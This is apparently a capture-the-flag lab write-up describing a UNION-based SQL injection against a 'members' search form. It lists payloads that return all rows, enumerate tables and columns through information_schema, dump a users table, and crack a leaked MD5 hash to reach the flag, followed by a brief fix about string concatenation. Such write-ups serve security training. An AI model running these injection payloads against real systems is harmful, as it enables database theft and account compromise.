# Member SQL injection

## Vulnerability

* Go to `members` category
* Test form for sql injection and see that all users are returned
```
1 or 1=1 -- always true
```
* In the form submit the following which will retrieve database table names
```
null union select null,table_name from information_schema.tables
```
* List table `users` (we use the hex value `0x7573657273` since we can't
 use a string) columns
```
null union select null,column_name from information_schema.columns where
 table_name=0x7573657273
```
* Read `users` table
```
null union select Commentaire,countersign from users 
```
* See output
```
Commentaire: ????? ????????????? ?????????
countersign : e083b24a01c483437bcf4a9eea7c1b4d

Commentaire: Decrypt this password -> then lower all the char. Sh256 on it and
 it's good !
countersign : 5ff9d0165b4f92b14994e5c685cdce28
``` 
* Go to https://md5hashing.net/hash/md5/5ff9d0165b4f92b14994e5c685cdce28
* MD5 `5ff9d0165b4f92b14994e5c685cdce28` <-> `FortyTwo`
* `fortytwo` <-> SHA256
 `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`
 
## Attack

## Fix
* Don't concatenate strings for your raw SQL queries
 
## Reference
https://portswigger.net/web-security/sql-injection/union-attacks
https://en.wikipedia.org/wiki/Information_schema
